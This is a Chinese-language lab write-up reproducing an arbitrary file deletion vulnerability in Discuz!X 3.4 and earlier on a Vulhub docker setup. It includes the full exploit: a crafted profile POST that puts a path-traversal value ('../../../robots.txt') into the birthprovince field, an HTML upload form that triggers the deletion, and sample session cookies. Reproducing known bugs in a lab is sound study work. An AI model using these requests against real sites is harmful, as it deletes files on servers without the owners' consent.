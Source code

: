 # Discuz!X ≤3.4 任意文件删除漏洞

## 漏洞描述

漏洞详情：https://lorexxar.cn/2017/09/30/dz-delete/

## 漏洞影响

```
Discuz!X ≤3.4
```

## 环境搭建

Vulhub执行下列命令部署 Discuz!X 安装环境

```
docker-compose up -d
```

启动后，访问`http://your-ip/install/`来安装discuz，只用修改数据库地址为`db`，其他保持默认即可。

![image-20220222131339964](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202221313350.png)

## 漏洞复现

访问`http://your-ip/robots.txt`可见robots.txt是存在的：

![image-20220222131412780](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202221314844.png)

注册用户后，在个人设置页面找到自己的formhash：

![image-20220222131618637](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202221316746.png)

带上自己的Cookie、formhash发送如下数据包：

```
POST /home.php?mod=spacecp&ac=profile&op=base HTTP/1.1
Host: 192.168.174.128
Content-Length: 370
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.174.128
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryW8uA1wbCsmuiargU
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.174.128/home.php?mod=spacecp&ac=profile&op=base
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: AuthSession=dGhyZWVraTo2MjE0NEM0Mzrhe4V-bNxBqV-1RKA7mJS_YQrC9A; ot6_visitedfid=2; ot6_sid=9yWYy0; et56_2132_saltkey=qN7vqIdT; et56_2132_lastvisit=1645503280; et56_2132_sid=Ze005m; et56_2132_seccode=1.526c82122231460dd9; et56_2132_ulastactivity=6467KkrgcKDQNmUlDxKLd592a6DUvLlRSPU4g07eDld2bKtFo3JU; et56_2132_auth=45cdTg%2F0tTayn1c5i6fOd%2F96K8vGKx7SVg9MgaAoLalS102hICOtVzWjuDHbYtyyH8Rqe54O1WS9d%2Fa0s%2FIV; et56_2132_nofavfid=1; et56_2132_onlineusernum=1; et56_2132_noticeTitle=1; et56_2132_lastact=1645507206%09home.php%09misc
Connection: close

------WebKitFormBoundaryW8uA1wbCsmuiargU
Content-Disposition: form-data; name="formhash"

d32e951d
------WebKitFormBoundaryW8uA1wbCsmuiargU
Content-Disposition: form-data; name="birthprovince"

../../../robots.txt
------WebKitFormBoundaryW8uA1wbCsmuiargU
Content-Disposition: form-data; name="profilesubmit"

true
------WebKitFormBoundaryW8uA1wbCsmuiargU--
```

![image-20220222132220237](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202221322360.png)

提交成功之后，用户资料修改页面上的出生地就会显示成下图所示的状态：

![image-20220222132303344](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202221323368.png)

说明我们的脏数据已经进入数据库了。

然后，新建一个`upload.html`，代码如下，将其中的`[your-ip]`改成discuz的域名，`[form-hash]`改成你的formhash：

```
<body>
    <form action="http://[your-ip]/home.php?mod=spacecp&ac=profile&op=base&profilesubmit=1&formhash=[form-hash]" method="post" enctype="multipart/form-data">
        <input type="file" name="birthprovince" />
        <input type="submit" value="upload" />
    </form>
</body>
```

用浏览器打开该页面，上传一个正常图片。如果遇到下图这样的情况，需要修改数据包。

![image-20220222143620386](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202221436463.png)

Burpsuite抓包，将Refer和Cookie替换为正常上传数据包的值。

```
POST /home.php?mod=spacecp&ac=profile&op=base&profilesubmit=1&formhash=d32e951d HTTP/1.1
Host: 192.168.174.222
Content-Length: 3685
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.159
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryKSoP7vDw487SX9LO
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: [替换为http://192.168.174.128/home.php?mod=spacecp]
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: [替换为正常上传的C]
Connection: close
```

此时脏数据应该已被提取出，漏洞已经利用结束。

再次访问`http://your-ip/robots.txt`，发现文件成功被删除。

![image-20220222145130066](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202221451120.png)
